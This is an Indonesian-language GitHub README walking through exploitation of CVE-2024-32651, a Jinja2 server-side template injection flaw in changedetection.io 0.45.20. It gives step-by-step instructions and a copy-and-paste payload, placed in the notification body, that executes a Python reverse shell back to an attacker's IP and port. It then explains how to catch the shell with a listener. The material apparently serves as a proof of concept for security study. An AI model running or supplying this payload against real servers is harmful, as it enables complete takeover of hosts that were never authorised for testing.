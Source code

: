 # CHANGEDETECTION
*Uji coba pada versi 0.45.20*

## Cara Kerja
ChangeDetection.io bekerja dengan cara mengambil snapshot dari halaman web yang dipantau pada interval waktu tertentu, lalu membandingkannya dengan snapshot sebelumnya untuk mendeteksi perubahan. Pengguna dapat menentukan URL halaman yang ingin dipantau untuk memantau area tertentu saja. Ketika perubahan terdeteksi, sistem akan mengirimkan notifikasi melalui metode yang dipilih, seperti Discord, Email, Slack, Telegram, API calls, dan lainnya. 

## Kerentanan
Kerentanan Server-Side Template Injection (SSTI) pada aplikasi changedetection.io yang menggunakan mesin template Jinja2. Kerentanan ini memungkinkan penyerang melakukan Remote Command Execution (RCE) pada host server, memberikan mereka kemampuan untuk menjalankan perintah sistem tanpa batasan, termasuk kemungkinan penggunaan reverse shell. Dampaknya sangat kritis karena penyerang dapat mengambil alih sepenuhnya mesin server.

## Langkah-langkah
*Sebelum memulai, jalankan web server anda (http.server)*

1. Intro (silahkan login menggunakan kata sandi anda)
![Screenshot 2025-01-04 104116](https://github.com/user-attachments/assets/69d6858a-e9c7-44b3-a01a-93df091e5e9b)

2. Setelah Masuk, masukan alamat pada url kemudian klik "Watch". Setelah itu klik "edit"
![Screenshot 2025-01-04 204927](https://github.com/user-attachments/assets/25c8a380-9eab-4b83-94e4-df7ca405d186)

3. Pada tab "General", masukkan kembali url ke web server anda. Setelah itu set Time -> "Seconds = 30". Klik tab "Notifications"
   *pastikan "Send a notification .." di centang*

4. Pada "Notification URL List", input "gets://<ip>". Pada bagian "Notification Body", copy & paste payload dan ubah IP serta port.
```sh
payload: {{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}*
```
SAVE!!
(Kembali ke Dashboard)

# Langkah untuk mendapatkan Reverse Shell

1. Aktifkan listener, masukkan port sesuai dengan port yang telah ditentukan pada payload sebelumnya
2. Tambahkan sebuah file pada direktori di "/home/user/" (pada kasus saya,  silahkan sesuaikan dengan kondisi anda)
3. Klik "Recheck"
4. Perhatikan listener anda!
>jika gagal, lanjut poin 5
5. Reload dashboard
6. Hapus file pada direktori di pc
7. Kembali ke web, centang bagian alamat website anda, kemudian klik "Recheck"
>Jika masih gagal, perhatikan video dibawah

# PoC
https://github.com/user-attachments/assets/af73e1cd-b55d-480d-8f9e-0129ded43b75

Sumber :
- [CVE Details](https://www.cvedetails.com/cve/CVE-2024-32651)
- [Hacktive Security](https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io)
- [Cyber Material](https://cybermaterial.com/server-side-template-injection-with-jinja2/)
